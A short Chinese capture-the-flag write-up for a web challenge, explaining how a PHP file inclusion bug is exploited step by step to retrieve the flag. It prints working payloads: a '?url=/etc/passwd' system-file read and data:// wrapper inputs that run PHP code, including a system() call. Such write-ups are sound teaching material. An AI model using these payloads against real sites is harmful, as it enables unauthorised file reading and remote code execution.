



## web3

+ 打开<code>web3</code>界面

由文字解析，由于包括<code>include</code>可知这是文件包含漏洞

+ 首先注入以下语句

~~~ shell
?url=/etc/passwd
~~~

可看到有回显位，由此知道注入成功

+ 注入语句查询当前目录下的文件结构

~~~ shell
?url=data://text/plain,<?php print_r(glob("*"))?>
~~~

+ 查看<code>ctf_go_go_go</code>文件

~~~ shell
?url=data://text/plain,<?php system("cat ctf_go_go_go"); ?>
~~~

得到<code>flag</code>

